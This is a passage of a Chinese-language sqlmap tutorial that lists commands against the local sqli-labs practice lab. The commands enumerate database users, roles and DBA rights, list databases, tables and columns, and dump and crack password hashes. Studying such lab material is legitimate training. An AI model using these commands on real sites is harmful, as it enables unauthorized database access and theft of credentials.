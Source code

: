 ```html
sqlmap -u "http://127.0.0.1/sqli-labs/Less-1/?id=1" --users
```

2、数据库passwords查询

```
sqlmap -u "http://127.0.0.1/sqli-labs/Less-1/?id=1" --passwords
```

`当我们跑密码的时候，sqlmap和我们会有两条左右交互
第一处：询问我们是否保存hash值 Y/N
第二处：询问我们是否对hash值进行爆破 Y/N/Q
第三处：询问我们是否要使用通用密码后缀？ Y/N`

3、查询数据库当前用户

```
sqlmap -u "http://127.0.0.1/sqli-lasb/Less-1/?id=1" --current-user  #查看数据库当前的用户
```

4、查询数据库当前用户是否具有管理员权限

```html
sqlmap -u "http://127.0.0.1/sqli/Less-1/?id=1" --is-dba  #判断当前用户是否有管理员权限
```

5、列出数据库的管理员用户

```
sqlmap -u "http://127.0.0.1/sqli/Less-1/?id=1" --roles
```

6、查询所有数据库

```
sqlmap -u "http://127.0.0.1/sqli/Less-1/?id=1" --dbs
```

7、查询当前数据库

```
sqlmap -u "http://127.0.0.1/sqli/Less-1/?id=1" --current-db
```

8、输出security数据库名字下的表

```
sqlmap -u "http://127.0.0.1/sqli/Less-1/?id=1" -D security --tables
```

9、输出security数据库下users表下的所有列

```
sqlmap -u "http://127.0.0.1/sqli/Less-1/?id=1" -D security -T users --columns
```

10、输出指定数据库下指定表下指定列的所有数据

```
sqlmap.py -u "http://127.0.0.1/sqli-labs/Less-1/?id=1" -D security -T users -C password --dump
```

#### 5、sqlMap --all系列
